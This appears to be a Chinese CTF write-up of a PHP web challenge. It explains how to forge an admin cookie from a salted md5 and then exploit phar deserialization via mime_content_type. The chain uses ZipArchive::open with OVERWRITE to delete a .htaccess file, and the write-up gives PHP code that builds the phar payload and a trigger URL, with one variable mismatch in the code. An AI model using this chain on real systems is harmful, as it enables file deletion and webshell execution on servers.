


### phar的原理

phar，全称为PHP Archive，phar扩展提供了一种将整个PHP应用程序放入.phar文件中的方法，以方便移动、安装。.phar文件的最大特点是将几个文件组合成一个文件的便捷方式，.phar文件提供了一种将完整的PHP程序分布在一个文件中并从该文件中运行的方法。

### 管理员绕过

整个程序大概流程就是

- 登录后跳转到上传页面
- 如果是管理员用户直接上传文件到特定目录
- 上传时候会再文件目录下生成一个错误的.htaccess导致目录解析错误500

下载附件审查

<figure>

[](https://www.xaitx.com/wp-content/uploads/2022/03/1648214920-image.png)

<figcaption>

index.php

</figcaption>

</figure>

<figure>

[](https://www.xaitx.com/wp-content/uploads/2022/03/1648214944-image.png)

<figcaption>

config.php

</figcaption>

</figure>

只要满足username=admin并且password不是admin就可登录成功。

登录成功后上传文件提示不是管理员。继续审查

<figure>

[](https://www.xaitx.com/wp-content/uploads/2022/03/1648215123-image.png)

<figcaption>

config.php

</figcaption>

</figure>

[](https://www.xaitx.com/wp-content/uploads/2022/03/1648215175-image.png)

管理员判断就是通过cookie的值判断。然后构造一个md5(E3ry7Hjq+username+passwd)值就可以绕过管理员验证。

###  Phar反序列化

然后继续审查文件相关

中间有个内容过滤。还有个获取类型的值

<figure>

[](https://www.xaitx.com/wp-content/uploads/2022/03/1648215390-image.png)

<figcaption>

config.,php

</figcaption>

</figure>

这个是文件上传的函数。

<figure>

[](https://www.xaitx.com/wp-content/uploads/2022/03/1648215522-image.png)

<figcaption>

config.php

</figcaption>

</figure>

总体看了下因为上传的webshell目录下有个错误的.htaccess 导致目录无法访问。大概猜测下能不能上传到其他目录，但是上传的路径不是完全可控的导致了这个题目陷入了难点（也可能我菜）

后来题目给了提示phar

先百度下phar可以解析的函数

[](https://www.xaitx.com/wp-content/uploads/2022/03/1648216019-image.png)

```
exif
exif_thumbnail
exif_imagetype
gd
imageloadfont
imagecreatefrom***
hash
hash_hmac_file
hash_file
hash_update_file
md5_file
sha1_file
file / url
get_meta_tags
get_headers
standard
getimagesize
getimagesizefromstringfinfo_file/finfo_buffer/mime_content_type
```

所以利用点就是在mime\_content\_type这个函数然。可以通过这个函数构造反序列化进行操作。下一步就是寻找利用点了。最开始仔细的研究了几个类没找到如何利用最后猛然发现（大佬提示）关注下open函数。

<figure>

[](https://www.xaitx.com/wp-content/uploads/2022/03/1648216409-image.png)

<figcaption>

config.php

</figcaption>

</figure>

这个会调用open函数。但是open是$admin下的一个函数。这个$admin正好可以通过反序列化进行控制。百度下open函数都是那些类下面的函数。最后可以发现ZipArchive类下面的open函数正好可以使用。

[](https://www.xaitx.com/wp-content/uploads/2022/03/1648217578-image.png)

两个参数都是可控。重点是后面的标识符，当标识符为

[](https://www.xaitx.com/wp-content/uploads/2022/03/1648217633-image.png)

使用open函数会删除掉文件所以就是直接的可以删除了.htaccess

### 生成phar文件

构造序列化的类。

```
class Profile{
    public $username="sandbox/5a8f6f94bc19c92b4d54261081d98c16/.htaccess";
    public $password=ZipArchive::OVERWRITE;
    public $admin;
}
$a = new Profile();$a -> admin = new ZipArchive();
```

剩下的是调用\_\_call()

[](https://www.xaitx.com/wp-content/uploads/2022/03/1648219096-image.png)

\_\_call()在调用一个不存在方法的时候会触发，所以我们还需要一个触发条件。可以通过其他类进行触发。

[](https://www.xaitx.com/wp-content/uploads/2022/03/1648219220-image.png)

### 代码

```
class Profile{
    public $username="sandbox/5a8f6f94bc19c92b4d54261081d98c16/.htaccess";
    public $password=ZipArchive::OVERWRITE;
    public $admin;
}
$a = new Profile();
$a -> admin = new ZipArchive();
class File{

    public $filename;
    public $filepath;
    public $checker;

}
$b = new File();
$b -> checker = $a;
$phar = new Phar("1.phar");
$phar->startBuffering();
$phar->setStub("<?php __HALT_COMPILER(); ?>");
$phar->setMetadata($a);
$phar->addFromString("test.txt", "test");
$phar->stopBuffering();
```

最后将这个phar文件上传。通过view访问就可以删除.htaccess然后访问你的webshell了

```
view.php?filename=xxx.phar&filepath=php://filter/resource=phar://sandbox/xxxx/xxxx.phar
```
